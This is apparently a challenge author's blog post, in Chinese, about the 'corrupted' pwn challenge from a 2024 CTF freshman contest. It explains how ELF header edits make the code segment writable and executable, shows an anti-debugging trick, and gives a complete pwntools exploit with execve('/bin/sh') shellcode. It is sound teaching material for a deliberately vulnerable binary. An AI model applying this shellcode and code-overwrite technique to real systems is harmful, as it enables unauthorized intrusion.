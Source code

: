 ```yaml
---
title: 赛博杯新生赛 2024 - corrupted 出题博客
date: 2024/12/18 19:37:00
updated: 2024/12/22 10:47:00
tags:
    - noob
    - elf header
    - challenge author
sticky: 92
thumbnail: /assets/cbctf2024/rwx.png
---
```


前段时间在看ELF头，正好新生赛到了，可以拿来出一道简单题，类似于`ret2shell`。
想看题解的可以跳过出题思路部分。

## 出题思路

首先可以使用ImHex来探查一下文件的结构。加载`elf.hexpat`:

![img](/assets/cbctf2024/elf.png)

大部分内容在[ctf-wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
都说得很清楚，我这里就不再赘述了，大家可以参考学习。我的想法主要是如果修改了ELF文件头，
会发生什么呢？

对于程序头`phdr`来说，如果`p_type == PT::LOAD`，那么它就是负责加载程序段的。
对于本题的情况，我把原来加载代码段的`rx`改成了`rwx`，这样代码段就变成可读可写可执行了。

![rwx](/assets/cbctf2024/rwx.png)

我还尝试改过段头`shdr`，但是发现改完后对于程序的加载没有任何影响，甚至把整个`shdr`
全部删掉，程序依然能够运行。

{% note purple fa-bug-slash %}
用gdb直接调试没有段头的程序，会提示可执行文件格式错误，这也是反调试的一种手段。
{% endnote %}

接着讲回`phdr`，在程序头中，存在2个程序安全特性：`PT::GNU_STACK`和`PT::GNU_RELRO`。
对于前者，`p_flags`可以设置程序栈区的权限（可以为`x`，即调整NX）；对于后者，
调整了权限也没用，程序仍然会将GOT表设为只读。删除`PT::GNU_STACK`
会让内核自行选择是否需要开启NX，删除`PT::GNU_RELRO`则会使程序从`Partial RELRO`
或`Full RELRO`回落到`No RELRO`。

{% notel blue fa-arrow-right-to-bracket 隐藏的构造器 %}
有些同学可能看见`randdata`放在bss上，就以为`randdata`里面是空的，只要推算出全0的
SHA256结果就能过verify。然而，程序中还有一个函数`loadBuf`，被标记了`constructor`
属性，在程序运行`main`之前会将从`/dev/random`中的随机数据读入`randdata`中，
因此如果正常猜的话选手是不可能猜中`randdata`的值的。
{% endnotel %}

## 题解

程序可以输入4次qword，并且可以指定相对于`match`的偏移量，但是检查时不严格，
可以为负数。

![check](/assets/cbctf2024/check.png)

在输入完4次qword后，会运行到`verify`函数。运行起来查看`vmmap`，程序代码段是可写的，
再检查`verify`的地址，刚好和`match`差了`0x2b90`个字节，可以通过设置偏移量为`-1394`修改
`verify`函数的内容。

![diff](/assets/cbctf2024/vmmap.png)

可以修改4次，总共32字节，足以写一shellcode了，直接拿shell。

![legend](/assets/cbctf2024/legend.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './corrupted'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10030)
    elf = ELF(EXE)

    def answer(idx: int, val: int):
        sh.sendlineafter(b'QWORD do', str(idx).encode())
        sh.sendlineafter(b'QWORD to', str(val).encode())

    offset = (elf.symbols['verify'] - elf.symbols['match']) // 8
    shell = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    push 0x3b
    pop rax
    cdq
    syscall
    '''
    shc = asm(shell) # 21 bytes

    answer(offset, u64(shc[:8]))
    answer(offset + 1, u64(shc[8:16]))
    answer(offset + 2, unpack(shc[16:], 'all'))
    answer(0, 0)

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

[ELF 文件 - CTF Wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
